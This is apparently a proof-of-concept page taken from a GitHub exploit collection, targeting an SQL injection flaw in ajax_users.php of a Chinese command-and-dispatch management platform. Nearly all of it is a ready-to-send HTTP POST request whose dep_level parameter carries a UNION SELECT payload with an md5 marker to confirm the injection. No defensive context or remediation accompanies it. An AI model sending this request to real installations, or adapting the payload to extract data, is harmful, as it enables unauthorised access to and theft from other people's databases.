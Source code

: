 # zhdd_ajax_users.php_sqli


from: https://github.com/wy876/POC/blob/main/%E7%A6%8F%E5%BB%BA%E7%A7%91%E7%AB%8B%E8%AE%AF%E9%80%9A%E4%BF%A1%E6%8C%87%E6%8C%A5%E8%B0%83%E5%BA%A6%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0ajax_users.php%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.5.13 @2 

```
POST /app/ext/ajax_users.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Content-Type: application/x-www-form-urlencoded
 
dep_level=1') UNION ALL SELECT NULL,CONCAT(0x7e,md5(1),0x7e),NULL,NULL,NULL-- -
```
